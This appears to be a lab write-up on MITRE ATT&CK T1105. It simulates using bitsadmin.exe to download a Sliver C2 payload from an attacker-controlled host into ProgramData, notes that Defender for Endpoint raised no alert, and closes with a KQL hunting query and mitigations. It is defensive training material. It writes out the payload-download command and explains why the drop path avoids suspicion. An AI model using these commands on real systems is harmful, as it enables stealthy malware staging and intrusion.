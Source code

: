 # T1105 – Ingress Tool Transfer  
**MITRE ATT&CK Reference:** [T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

Attackers don’t always need fancy implants, but sometimes all they need is a way *in*. 
Once initial access is achieved, dropping follow-up tooling is step one in solidifying control. 
This test simulates a common move: using the deprecated but still operational `bitsadmin.exe` to download a C2 payload from an attacker-controlled server.

Despite being phased out, `bitsadmin.exe` still ships with Windows and remains a go-to for red teamers and adversaries alike. 
It’s signed, native, and capable of pulling files over HTTP. Perfect for flying under the radar.

---

## Scenario Overview

- **Attacker VM:** `HR-COMPLAINTS` (Ubuntu 22.04, Python HTTP server)  
  - **IP:** `10.1.0.51`
- **Target VM:** `CEO-LAPTOP` (Windows 10 w/ Microsoft Defender for Endpoint)  
  - **Admin User:** `TrustMeBro`

---

## Payload Transfer

The attacker hosts `updater.exe` (a malicious binary written with the C2 framework Sliver), using Python’s built-in web server:

```bash
sudo python3 -m http.server 80
```

From the Windows target, the attacker executes:

```cmd
bitsadmin /transfer downloader /priority foreground http://10.1.0.51/updater.exe C:\ProgramData\Microsoft\Windows\updater.exe
```

> ℹ️ **Why `ProgramData`?**  
> This location is writable, commonly used by legitimate applications, and unlikely to trigger suspicion or UAC prompts.  
> It also blends easily with system noise.

&nbsp;  
<img width="772" height="408" alt="download_payload_from_linux" src="https://github.com/user-attachments/assets/99caf106-68a9-4990-a3ee-d10b36375c81" />


---

## Detection

Despite using a commonly abused LOLBin to download a suspicious `.exe` file, **no alerts or incidents** were triggered by MDE. However, the event is recorded in the device timeline:

<img width="1699" height="167" alt="checking_device_timeline_for_bitsadmin_payload" src="https://github.com/user-attachments/assets/b0ef808a-6eff-45a1-9cbd-c9c748911240" />

We observe `bitsadmin.exe` initiating an outbound HTTP request to `10.1.0.51`.

---

## KQL – Bitsadmin Hunting

```kql
DeviceProcessEvents
| where FileName =~ "bitsadmin.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine, ReportId
| order by Timestamp desc
```

<img width="1381" height="532" alt="checking_for_bitsadmin_payload_kql" src="https://github.com/user-attachments/assets/64890755-7ef0-4fd3-a311-db89081ab288" />

---  

## Defender’s Corner  
> While `bitsadmin.exe` is deprecated, it remains a quiet favorite among adversaries for staging payloads over HTTP. Its ability to download files without triggering immediate alerts makes it useful in the early stages of intrusion.

**Mitigation & Detection Guidance** (based on [MITRE ATT&CK T1105](https://attack.mitre.org/techniques/T1105/)):

- **Network-level visibility**  
  Use intrusion detection/prevention systems (IDS/IPS) to flag suspicious outbound connections — especially to uncommon IPs or internal rogue hosts.

- **Command-line monitoring**  
  Track execution of native tools like `bitsadmin.exe` with unusual arguments or connections to non-corporate domains.

- **File system events**  
  Alert on file creation in obscure or high-risk paths like `C:\ProgramData\Microsoft\Windows\`.

- **Baseline awareness**  
  Investigate new binaries dropped by unfamiliar processes — especially those involving legacy transfer methods.

